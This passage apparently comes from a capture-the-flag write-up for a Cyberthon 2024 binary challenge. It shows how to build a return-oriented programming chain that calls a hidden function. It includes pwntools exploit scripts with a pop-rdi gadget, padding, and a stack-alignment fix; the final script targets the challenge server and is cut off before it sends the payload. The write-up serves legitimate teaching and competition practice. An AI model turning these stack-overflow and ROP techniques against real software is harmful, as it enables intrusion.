 If we pass in `width` and `length` corresponding with `pop rdi` and `ret` instructions, we could have a `pop rdi ; ret` gadget!

### Piecing together our Exploit

Based on what we know so far, we can craft a payload that calls `a_worthy_saber("worthy")`.

```python
from pwn import *

e = ELF("./challenge")
p = process("./challenge")

# 1. address of a_worthy_saber
# 2. address of string "worthy"
# 3. a gadget that allows us to control RDI
a_worthy_saber = e.sym.a_worthy_saber
str_worthy = next(e.search(b"worthy\x00"))
pop_rdi_ret = e.sym.craft_saber + 20

payload  = b"RED\x00"                           # put in a valid color string
payload += b"A"*52
payload += p64(pop_rdi_ret) + p64(str_worthy)   # prepare RDI = str_worthy
payload += p64(e.sym.a_worthy_saber)            # call a_worthy_saber

gdb.attach(p)
p.sendlineafter(b":", payload)              # color
p.sendlineafter(b":", str(0xc3).encode())   # length : ret
p.sendlineafter(b":", str(0x5f).encode())   # width : pop rdi

p.interactive()
```

## Finale: Debug and Run our Exploit

However if we run the exploit script above, the program crashes at `movaps` once again.

![image](movaps-issue.png)
_gdb output when program crashes_

The `movaps` issue happens due to [misalignment of the stack](https://pwn.elmo.sg/miscellaneous/movaps-issue.html). We can simply solve this by adding an additional `ret` gadget in our ROP chain.

**Final Solve Script**

```py
from pwn import *

e = ELF("./challenge")
# p = process("./challenge")
p = remote("chals.f.cyberthon24.ctf.sg", 40201)

# 1. address of a_worthy_saber
# 2. address of string "worthy"
# 3. a gadget that allows us to control RDI
a_worthy_saber = e.sym.a_worthy_saber
str_worthy = next(e.search(b"worthy\x00"))
pop_rdi_ret = e.sym.craft_saber + 20
ret = e.sym.craft_saber + 21

payload  = b"RED\x00"                           # put in a valid color string
payload += b"A"*52
payload += p64(ret)                             # pad with ret
payload += p64(pop_rdi_ret) + p64(str_worthy)   # prepare RDI = str_worthy
payload += p64(e.sym.a_worthy_saber)            # call a_worthy_saber

```
